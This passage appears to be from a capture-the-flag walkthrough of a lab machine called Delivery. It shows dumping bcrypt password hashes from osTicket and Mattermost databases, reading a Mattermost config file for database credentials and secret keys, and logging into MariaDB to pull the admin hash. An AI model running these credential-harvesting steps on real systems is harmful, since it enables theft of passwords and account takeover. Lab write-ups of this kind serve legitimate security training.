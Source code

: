   MariaDB [osticket]> SELECT id,user_id,username,passwd FROM ost_user_account;
    +----+---------+----------+--------------------------------------------------------------+
    | id | user_id | username | passwd                                                       |
    +----+---------+----------+--------------------------------------------------------------+
    |  1 |       7 | NULL     | $2a$08$rgQoa/Pwz1tb6ppfKhmtTunPOzVz2flI7JQ.Hb2DY5zBQfCylQJjq |
    |  2 |       8 | NULL     | $2a$08$kz/5w9eI.e2VRCZeaep3U.a5.i.a6cXYfPeNQ0CmnmEHwHAjzS3ve |
    |  3 |       9 | NULL     | $2a$08$YkHXzo9yIxEUjOs583X/jucqrwtGazzXQmGMHBRM4NZ2.WGMH2OZq |
    |  4 |      10 | NULL     | $2a$08$KrtpXlS/qC2bFa410TV17eEu7bMBUWSOJXyXv6F0aiI9ABrDRP07q |
    |  5 |      11 | NULL     | $2a$08$skz09GR4/zJ.JLwlKmMbueyvQRYoV3wocPeGNuC8.PDXHvdFS2cHW |
    +----+---------+----------+--------------------------------------------------------------+

  MariaDB [osticket]> SELECT username,passwd FROM ost_staff;
    +---------------+--------------------------------------------------------------+
    | username      | passwd                                                       |
    +---------------+--------------------------------------------------------------+
    | maildeliverer | $2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy |
    +---------------+--------------------------------------------------------------+

All hashes are for user accounts on /var/www, no need to crack them.


2. Lets move on and see if we can find any hashes from the MatterMost service.

maildeliverer@Delivery:/opt/mattermost/config$ cat config.json
"ServiceSettings": {
  --- snip ---
  "GfycatApiKey": "2_KtH_W5",
  "GfycatApiSecret": "3wLVZPiswc3DnaiaFoLkDvB4X0IV6CpMkj4tf2inJRsBY6-FnkT08zGmppWFgeof",
"SqlSettings": {
  "DriverName": "mysql",
  "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
  "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
"FileSettings": {
  --- snip ---
  "PublicLinkSalt": "8818u8uiz1n9rykuwgiqttfzgu6iixhz",


The obvious credentials 'mmuser:Crack_The_MM_Admin_PW' points towards MySQL/MariaDB port 3306, lets login and see if
we can grab the admin hash.

maildeliverer@Delivery:/opt/mattermost/data$ mysql -h localhost -u mmuser -p
MariaDB [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | mattermost         |
  +--------------------+
MariaDB [mattermost]> SELECT Username,Password FROM Users;
  +----------------------------------+--------------------------------------------------------------+
  | Username                         | Password                                                     |
  +----------------------------------+--------------------------------------------------------------+
  | surveybot                        |                                                              |
  | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
  | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |